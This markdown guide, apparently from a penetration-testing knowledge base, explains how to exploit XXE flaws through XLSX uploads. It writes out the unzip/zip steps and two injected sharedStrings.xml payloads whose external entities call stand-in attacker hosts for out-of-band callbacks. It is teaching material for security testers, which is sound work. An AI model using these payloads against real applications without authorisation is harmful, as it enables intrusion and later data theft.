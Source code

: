 ```yaml
---
title: Exploiting XXE Vulnerabilities in XLSX Files
description: Learn how to exploit XML External Entity (XXE) vulnerabilities in XLSX
  files using embedded malicious XML payloads.
keywords:
- XXE vulnerability
- XLSX files
- XML External Entity
- sharedStrings.xml
- Office Open XML
- blind XXE
- spreadsheet security
- malicious XML payload
- XXE exploitation
- Excel file parsing
---
```


# XXE Inside XLSX file

## Context

This guide aims to demonstrate the exploitation of XML External Entity (XXE) vulnerabilities within XLSX files. By embedding malicious payloads in the XML components of an Excel file, attackers can execute XXE attacks during the file parsing process. This document presumes knowledge of XML structures, the Office Open XML file format, and general Excel file structures, as well as familiarity with standard XXE exploitation techniques.

## Theory

### XLSX File Structure and XML Components

XLSX files are essentially ZIP archives containing multiple XML files that represent spreadsheet data and metadata. Key components within an XLSX archive include `sharedStrings.xml`, `workbook.xml`, and the XML files for individual worksheets. These XML files are extracted and processed by Excel or server-side parsers during importation or data analysis.

### XXE Attack Surface in XLSX Files

The attack surface for XXE in XLSX files exists when XML parsers used to process these files do not disable the resolution of external entities. This vulnerability can be exploited by embedding a malicious XML payload, such as within `sharedStrings.xml`, repackaging the XLSX file, and submitting it to a target application. These applications often trust uploaded XLSX files and parse the embedded XML without proper validation.

### Blind XXE in Excel Context

Blind XXE occurs when the exfiltration of data or the impact of the attack is not directly observable through application responses. Detection of exploitation in such cases is achieved through out-of-band (OOB) channels, such as monitoring DNS or HTTP callbacks, to detect XXE exploitation activity.

## Practice

### Embedding XXE Payload in sharedStrings.xml

- **Extract the XLSX Contents:**
  ```bash
  unzip target.xlsx -d xlsx_extracted
  ```
  This command extracts the contents of the XLSX file to a directory named `xlsx_extracted` for modification.

- **Edit sharedStrings.xml:**
  Open `xlsx_extracted/xl/sharedStrings.xml` in a text editor of your choice.

- **Inject XXE Payload:**
  Replace or inject the following payload into `sharedStrings.xml`:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.com/xxe"> ]>
  <sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
    <si><t>&xxe;</t></si>
  </sst>
  ```

- **Repackage the XLSX File:**
  ```bash
  cd xlsx_extracted && zip -r ../xxe_payload.xlsx *
  ```
  This command navigates to the extracted directory and repackages the files into a new XLSX file named `xxe_payload.xlsx`.

- **Submit the Malicious XLSX:**
  Upload or submit `xxe_payload.xlsx` to the target application. If the application is vulnerable, the system will make an outbound request, confirming XXE exploitation.

### Detecting Blind XXE via OOB DNS Callback

- **Use a Callback Payload:**
  Modify the payload to interact with a domain you control for out-of-band detection:
  ```xml
  <?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://attacker.yourdomain.com/"> ]>
  <sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main">
    <si><t>&xxe;</t></si>
  </sst>
  ```

- **Monitor for OOB Activities:**
  Keep an eye on your DNS or HTTP logs to capture requests from the target environment. These requests indicate successful XXE exploitation, with the environment trying to resolve or access your controlled domain.

## Tools

- **zip/unzip**
- **Burp Collaborator**
- **Responder**
- **dig**